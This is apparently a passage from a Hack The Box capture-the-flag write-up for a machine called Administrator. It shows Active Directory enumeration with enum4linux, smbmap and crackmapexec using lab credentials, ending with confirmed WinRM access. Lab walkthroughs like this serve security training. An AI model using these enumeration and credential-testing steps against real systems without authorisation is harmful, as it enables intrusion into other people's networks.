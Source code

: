 tried to do axfr zone transfer and internal zone transfer --> nothing 

## LDAP Enumeration

enum4linux
```
enum4linux -u Olivia -p ichliebedich 10.10.11.42                 
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Jun 27 16:21:50 2025
 =========================================( Target Information )=========================================
Target ........... 10.10.11.42                                                   
RID Range ........ 500-550,1000-1050
Username ......... 'Olivia'
Password ......... 'ichliebedich'
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ============================( Enumerating Workgroup/Domain on 10.10.11.42 )============================
[E] Can't find workgroup/domain  
 ====================================( Session Check on 10.10.11.42 )====================================     
[+] Server 10.10.11.42 allows sessions using username 'Olivia', password 'ichliebedich'                                                                                                        
 =================================( Getting domain SID for 10.10.11.42 )=================================
Domain Name: ADMINISTRATOR                                                       
Domain Sid: S-1-5-21-1088858960-373806567-254189436
[+] Host is part of a domain (not a workgroup)                                   
enum4linux complete on Fri Jun 27 16:22:00 2025 
```

### SMB Enumeration
```
smbmap -H 10.10.11.42 -u Olivia -p ichliebedich -d administrator.htb
```

```
[+] IP: 10.10.11.42:445 Name: administrator.htb         Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```
nothing much found either


## Winrm 
it is possible to login as Olivia to winrm
```
crackmapexec winrm 10.10.11.42 -u 'Olivia' -p 'ichliebedich' 
SMB         10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
HTTP        10.10.11.42     5985   DC               [*] http://10.10.11.42:5985/wsman
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\Olivia:ichliebedich (Pwn3d!)
```
